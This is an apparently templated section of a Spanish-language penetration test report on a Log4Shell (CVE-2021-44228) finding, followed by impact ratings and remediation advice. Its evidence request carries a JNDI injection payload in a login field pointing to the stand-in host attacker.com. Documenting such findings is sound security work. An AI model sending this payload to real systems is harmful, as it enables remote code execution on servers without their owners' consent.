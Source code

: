 
### 3. Hallazgos Técnicos Detallados

```markdown
# HALLAZGOS TÉCNICOS

## VULNERABILIDAD CRÍTICA #1

### CVE-2021-44228 - Log4Shell RCE
**Severidad**: CRÍTICA (CVSS 10.0)
**Sistema Afectado**: webserver.company.com:8080
**Categoría**: Remote Code Execution

#### Descripción Técnica
La aplicación web utiliza Apache Log4j versión 2.14.1, vulnerable a CVE-2021-44228. Esta vulnerabilidad permite ejecución remota de código a través de lookups JNDI maliciosos en strings de log.

#### Evidencia de Explotación
**Request realizado:**
```http
POST /api/login HTTP/1.1
Host: webserver.company.com:8080
Content-Type: application/json

{
  "username": "${jndi:ldap://attacker.com:1389/exploit}",
  "password": "test123"
}
```

**Respuesta del sistema:**
```
[INFO] User login attempt: ${jndi:ldap://attacker.com:1389/exploit}
```

**Proof of Concept:**
Se logró ejecutar el comando `id` en el servidor objetivo, confirmando RCE completo.

#### Impacto
- **Confidencialidad**: ALTO - Acceso completo al sistema
- **Integridad**: ALTO - Capacidad de modificar datos
- **Disponibilidad**: ALTO - Posible DoS del servicio

#### Recomendaciones de Remediación
1. **Inmediato (24h)**: Actualizar Log4j a versión 2.17.0 o superior
2. **Corto plazo**: Implementar WAF con reglas anti-JNDI
3. **Largo plazo**: Implementar monitoreo de integridad de archivos

#### Referencias
- [CVE-2021-44228](https://cve.mitre.org/)
- [Apache Log4j Security Vulnerabilities](https://logging.apache.org/log4j/2.x/security.html)

---
